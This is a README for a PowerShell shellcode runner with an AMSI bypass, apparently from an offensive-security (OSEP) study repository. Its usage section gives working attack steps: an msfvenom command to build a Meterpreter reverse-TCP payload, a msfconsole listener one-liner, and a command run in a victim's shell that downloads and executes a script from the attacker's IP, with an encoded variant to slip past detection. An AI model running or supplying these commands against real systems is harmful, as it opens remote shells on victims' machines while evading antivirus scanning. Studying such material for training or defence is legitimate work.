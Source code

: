 # Name
Powershell ShellCode Runner with AMSI Bypass

## Usage
```
Change Line 1 in runall.ps1 to Kali's IP

Host Python Webserver on Kali 

Generate payload & put in line 44 of shellcoderunner.ps1
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell

Start Msfconsole listener
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64_encode.py to_encode.txt 
```

## Source
https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI
